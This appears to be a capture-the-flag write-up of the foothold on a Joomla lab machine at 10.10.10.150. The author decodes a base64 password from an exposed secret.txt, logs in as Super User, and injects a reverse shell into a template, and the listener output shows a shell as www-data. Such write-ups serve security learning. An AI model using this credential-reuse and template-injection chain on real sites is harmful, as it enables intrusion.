

# Joomla

The website seems to be a `Joomla!`. It's a CMS : http://10.10.10.150/


Gobuster find a `secret.txt` file on the server. He contains a string encoded in `base64` : http://10.10.10.150/secret.txt


Let's decode it.

```bash
$ echo -n "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

We have a potential password : `Curling2018!`.
On the `index.php` page we can see a post signed by `Floris`.


We can connect as `Super User` with the combo `Floris:Curling2018!` : http://10.10.10.150/administrator/


We need to find the `index template` and modify the php code to inject a `reverse shell` on the page : http://10.10.10.150/administrator/index.php?option=com_templates&view=template&id=506&file=L2luZGV4LnBocA%3D%3D



```bash
$ nc -lvnp 9001
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.150.
Ncat: Connection from 10.10.10.150:54530.
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 12:08:53 up 42 min,  0 users,  load average: 0.02, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
